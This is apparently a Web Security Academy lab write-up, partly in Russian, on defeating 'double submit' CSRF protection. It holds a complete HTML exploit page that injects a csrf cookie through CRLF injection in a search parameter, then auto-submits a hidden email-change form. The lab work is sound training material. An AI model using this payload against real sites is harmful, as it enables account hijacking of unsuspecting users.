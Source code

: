 # CSRF where token is duplicated in cookie
PRACTITIONER

This lab's email change functionality is vulnerable to CSRF. It attempts to use the insecure "double submit" CSRF prevention technique.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You can log in to your own account using the following credentials: wiener:peter

## Решение
Если отредактировать значение кукиса "csrf" и обновить страницу, то значение CSRF-токена также обновится соответствующим образом.

Кукис csrf может быть установлен посредством CRLFi в функционале поиска (подробнее об этом написано в описании [предыдущей лабы](../05-csrf-where-token-is-tied-to-non-session-cookie/README.md)):
```
<html>
<body>
    <form action="https://0aee004204f1cab3800562ba00780058.web-security-academy.net/my-account/change-email" method="POST">
        <input type="hidden" name="email" value="wiener123@normal-user.net" />
        <input required="" type="hidden" name="csrf" value="RjKJCHhC56GVPZgwAvBANld2KZlbeJDB" />
    </form>
    <img src="https://0aee004204f1cab3800562ba00780058.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=RjKJCHhC56GVPZgwAvBANld2KZlbeJDB%3b%20SameSite=None" onerror="document.forms[0].submit()" >
</body>
</html>
```
Задание выполнено.
